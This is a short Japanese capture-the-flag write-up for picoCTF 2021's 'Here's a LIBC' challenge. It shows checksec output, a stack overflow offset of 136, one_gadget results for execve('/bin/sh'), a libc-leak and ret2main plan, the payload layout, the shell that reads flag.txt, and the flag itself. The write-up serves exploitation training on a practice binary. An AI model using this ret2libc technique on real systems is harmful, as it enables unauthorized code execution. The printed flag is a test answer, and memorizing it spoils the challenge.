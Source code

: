 ```
gef➤  checksec
[+] checksec for '/home/pwn/challenges/picoCTF2021/Here's a LIBC/attachment/vuln'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

```
gef➤  pattern search $rsp
[+] Searching for '7261616161616161'/'6161616161616172' with period=8
[+] Found at offset 136 (little-endian search) likely
```

```
$ one_gadget given_libc.so.6 
0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a45c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

putsでlibc leakしてret2mainしてone gadget rceする。

```
0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL
```
を使う。ローカルでone_gadget_addressにbreakpointを設定して、`b"A" * 136, p64(one_gadget_address), b"\x00" * 0x48`を投げると、
```
gef➤  x/xg $rsp+48
0x7ffc98cd0200: 0x0000000000000000
```
となっていたので、これを送る。

```
$ ls
flag.txt
libc.so.6
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_37b2dd6c2acb572a}$  
```

Flag: `picoCTF{1_<3_sm4sh_st4cking_37b2dd6c2acb572a}`

備考: `system("/bin/sh")`を呼び出しても解ける。